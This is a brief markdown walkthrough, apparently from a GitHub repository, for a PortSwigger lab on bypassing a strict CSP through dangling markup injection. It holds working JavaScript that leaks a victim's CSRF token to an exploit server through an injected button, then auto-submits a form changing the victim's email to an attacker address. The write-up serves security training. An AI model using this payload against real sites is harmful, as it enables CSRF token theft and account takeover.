

>>> Platform -> portswigger
>>> ### Target -> Lab: Reflected XSS protected by very strict CSP, with dangling markup attack
**What is CSP**: Content Security Policy — a browser security header (`Content-Security-Policy`) that restricts which sources (scripts, styles, images, forms, etc.) a page is allowed to load or submit to. It's mainly used as a defense-in-depth layer against XSS — even if an attacker manages to inject a script, a strict CSP can stop it from executing or exfiltrating data to an external domain

```bash
danling vuln patch in chrome they don't work any browser modern era

```

----
**Where is Vuln**: The application uses a strict CSP that blocks loading subresources from external domains — but a reflected XSS injection point still allows dangling markup injection within the page.

**Goal**: Perform a form hijacking attack that bypasses the CSP, exfiltrates the victim's CSRF token, and uses it to change the victim's account email to `hacker@evil-user.net`. Vector must be labeled "Click" to induce the simulated user to click it. Must use the provided exploit server (external interactions are firewalled).


----

#### Steps :
1. OPen the Lab..
2. Exploiotation and go exploit server paste this code with edit some details
```html
<body>
<script>
// Define the URLs for the lab environment and the exploit server.
const academyFrontend = "https://your-lab-url.net/";
const exploitServer = "https://your-exploit-server.net/exploit";

// Extract the CSRF token from the URL.
const url = new URL(location);
const csrf = url.searchParams.get('csrf');

// Check if a CSRF token was found in the URL.
if (csrf) {
    // If a CSRF token is present, create dynamic form elements to perform the attack.
    const form = document.createElement('form');
    const email = document.createElement('input');
    const token = document.createElement('input');

    // Set the name and value of the CSRF token input to utilize the extracted token for bypassing security measures.
    token.name = 'csrf';
    token.value = csrf;

    // Configure the new email address intended to replace the user's current email.
    email.name = 'email';
    email.value = 'hacker@evil-user.net';

    // Set the form attributes, append the form to the document, and configure it to automatically submit.
    form.method = 'post';
    form.action = `${academyFrontend}my-account/change-email`;
    form.append(email);
    form.append(token);
    document.documentElement.append(form);
    form.submit();

    // If no CSRF token is present, redirect the browser to a crafted URL that embeds a clickable button designed to expose or generate a CSRF token by making the user trigger a GET request
} else {
    location = `${academyFrontend}my-account?email=blah@blah%22%3E%3Cbutton+class=button%20formaction=${exploitServer}%20formmethod=get%20type=submit%3EClick%20me%3C/button%3E`;
}
</script>
</body>


```


3. after excute this
4. solve the lab.......   
